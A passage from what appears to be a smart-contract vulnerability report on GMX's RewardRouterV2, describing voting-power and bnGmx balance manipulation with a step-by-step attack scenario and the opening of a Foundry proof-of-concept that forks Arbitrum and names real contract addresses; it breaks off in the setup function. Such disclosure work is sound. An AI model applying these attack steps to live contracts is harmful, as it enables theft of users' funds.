 ### Impact Details

If an attacker borrows a large amount of GMX and proceeds with a stake in RewardRouterV2(new) and unstakes it with RewardRouterV2(old), the attacker can acquire a large amount of voting power.

Then he can manipulate everything in the protocol with absolute voting rights for all proposals. The attacker can also steal all of the contract's funds.

### 2. bnGmx balance and stake amount of the token Manipulation. (High)

The attacker is trying to unstake half of the total baseStakeAmount. 

Now he tries to detour the normal logic.

**Attack Scenario**

- The attacker call unstakeGmx function of RewardRouterV2(new) with 1wei.

- The attacker call unstakeGmx function of RewardRouterV2(old) with baseStakedAmount / 2 - 1.

- The attacker call compound function of RewardRouterV2(new).

POC:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "../../src/PoC.sol";
import "../../src/protocols/GMX/interfaces/IRewardRouterV2.sol";
import "../../src/protocols/GMX/interfaces/IRewardTracker.sol";

contract RewardRouterV2BnGMXBugTest is PoC {
    uint256 private arbitrumFork;
    uint256 private constant BASIS_POINTS_DIVISOR = 10000;

    IERC20[] private tokens;

    IERC20 private constant gmx = IERC20(0xfc5A1A6EB076a2C7aD06eD22C90d7E710E35ad0a);
    IERC20 private constant bnGmx = IERC20(0x35247165119B69A40edD5304969560D0ef486921);

    IRewardRouterV2 private constant rewardRouterV2Old = IRewardRouterV2(0xA906F338CB21815cBc4Bc87ace9e68c87eF8d8F1);
    IRewardRouterV2 private constant rewardRouterV2New = IRewardRouterV2(0x159854e14A862Df9E39E1D128b8e5F70B4A3cE9B);

    IRewardTracker private constant feeGmxTracker = IRewardTracker(0xd2D1162512F927a7e282Ef43a362659E4F2a728F);
    IRewardTracker private constant stakedGmxTracker = IRewardTracker(0x908C4D94D34924765f1eDc22A1DD098397c59dD4);

    address private user = address(0xc7f1De8EeB686E7ccBa4b4CEEFDC9Bd8f51364F9);

    uint256 unstakeAmount;

    function setUp() public {
        console.log("Fork arbitrum network (Mar-13-2024 06:54:43 PM +UTC)");
        arbitrumFork = vm.createFork("arbitrum", 190041754);
        vm.selectFork(arbitrumFork);

        tokens.push(bnGmx);

        uint256 baseStakedAmount = IRewardTracker(stakedGmxTracker).stakedAmounts(user);
        unstakeAmount = baseStakedAmount / 2;

```